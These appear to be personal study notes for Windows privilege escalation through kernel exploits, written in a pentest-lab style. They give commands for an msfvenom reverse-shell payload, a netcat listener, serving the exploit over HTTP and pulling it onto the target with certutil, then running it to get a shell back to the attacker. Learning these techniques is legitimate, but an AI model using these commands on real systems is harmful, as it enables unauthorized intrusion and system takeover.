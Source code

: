 > if powershell and winpeas are not avaiable to use

in Kali: 
```powershell
# https://github.com/AonCyberLabs/Windows-Exploit-Suggester
./windows-exploit-suggester.py --update
pip install xlrd --upgrade

# 'if u dont have pip' > curl http://bootstrap.pypa.io/get-pip.py -o get-pip.py; python get-pip.py
./windows-exploit-suggester.py --database <db.xls> --systeminfo <sysinfo file>
```


# Escalation Path: Kernel Exploits

Windows Kernel Exploits: https://github.com/SecWiki/windows-kernel-exploits


## Kernel
- Is a computer program that controls everything in the system
- Facilitates interactions between hardware and software components 
- A translator

### In metasploit
```
after run suggester / winpeas / powerup, we have an idea which kernel exploits we can try
background the session
so we search in metasploit example: exploit/windows/local/ms10_015_kitrap0d
set options > run
```

### Manually
```bash
msfvenom -p windows/shell_reverse_tcp lhost=<kali ip> lport=<port> -f aspx > shell.aspx
nc -lvnp <port> = set a listener	

# MS10-059 Exploit - https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059
```

> transfer the exploit to the windows target machine

in kali:
```python
python3 -m http.server 80 
```

in windows:
```powershell
cd c:\Windows\Temp
certutil -urlcache -f http://<kali ip>/<file> <output name>
exploit.exe <kali ip> <port>
```

in kali:
```bash
nc -lvnp <port>
```

